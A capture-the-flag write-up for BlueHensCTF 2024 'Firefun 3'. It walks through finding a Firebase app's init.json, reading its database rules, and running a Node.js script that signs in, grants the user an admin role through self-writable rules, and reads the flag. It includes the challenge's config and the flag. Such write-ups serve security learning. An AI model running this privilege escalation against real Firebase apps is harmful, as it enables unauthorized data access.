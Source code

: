 ```yaml
---
title: "BlueHensCTF 2024 - Firefun 3"
date: "2024-11-10"
tags:
  - writeups
  - ctf
  - firebase
  - js
toc: true
math: true
bold: 
nomenu: false
---
```



We would start with a simple landing page that has nothing in it besides some HTML, the wappalyzer tells us that this is a Firebase application.

In that case we can try to fuzz some firebase specific things, which will lead us to the configuration file:

```
/__/firebase/init.json
```

Now we can quickly craft some enumeration of that application, HOWEVER I've tried with various tools such as:

- [firepwn](https://github.com/0xbigshaq/firepwn-tool)
- [baserunner](https://github.com/iosiro/baserunner)

But for whatever reason they did not work, so I've crafted my own code to do the enumeration in NodeJS. First I wanted to explore the storage, where I found this file `is_this_secure?.png`. Which contains a screenshot of the rules which are:

```json
{
    "rules": {
        "users": {
            "$userid": {
                ".read": "$userid === auth.uid",
                ".write": "$userid === auth.uid"
            }
        },
        "rules": {
            ".read": true,
            ".write": false
        },
        "flag": {
            ".write": false,
            ".read": "root.child('users').child(auth.uid).child('roles').child('admin').exists()"
        }
    }
}
```

We can see that we can uncover the flag node by being an admin. So let's try to set ourselves as admin and get the flag.

```js
import { initializeApp } from "firebase/app";
import { getAuth, signInWithEmailAndPassword  } from "firebase/auth";
import { getDatabase, ref as dbref, update, get } from "firebase/database";

const app = initializeApp({
  "apiKey": "AIzaSyBX_qnDyJ9pl_csJUprUywtAh9lUbVqPFU",
  "authDomain": "udctf24.firebaseapp.com",
  "databaseURL": "https://udctf24-default-rtdb.firebaseio.com",
  "messagingSenderId": "926833250426",
  "projectId": "udctf24",
  "storageBucket": "udctf24.firebasestorage.app"
});

// Initialize Database
const db = getDatabase(app);

// Authenticate and Assign Admin Role
const auth = getAuth();
signInWithEmailAndPassword(auth, "wow@gmail.com", "password")
  .then((userCredential) => {
    // User successfully signed in
    const user = userCredential.user;
    console.log("User logged in:", user.email);

    const uid = user.uid;

    const userRolesRef = dbref(db, `users/${uid}/roles`);

    update(userRolesRef, { admin: true })
      .then(() => {
        console.log("Admin role assigned to user:", uid);

        const flagRef = dbref(db, '/flag');
        get(flagRef)
          .then((snapshot) => {
            if (snapshot.exists()) {
              console.log("Flag data:", snapshot.val());
            } else {
              console.log("No data available at /flag");
            }
          })
          .catch((error) => {
            console.error("Error reading /flag data:", error);
          });
      })
      .catch((error) => {
        console.error("Error assigning admin role:", error);
      });
  })
  .catch((error) => {
    console.error("Error signing in:", error);
  });
```

Which get us the flag:

```
udctf{wh4t_4_sleuth_y0u_4r3!}
```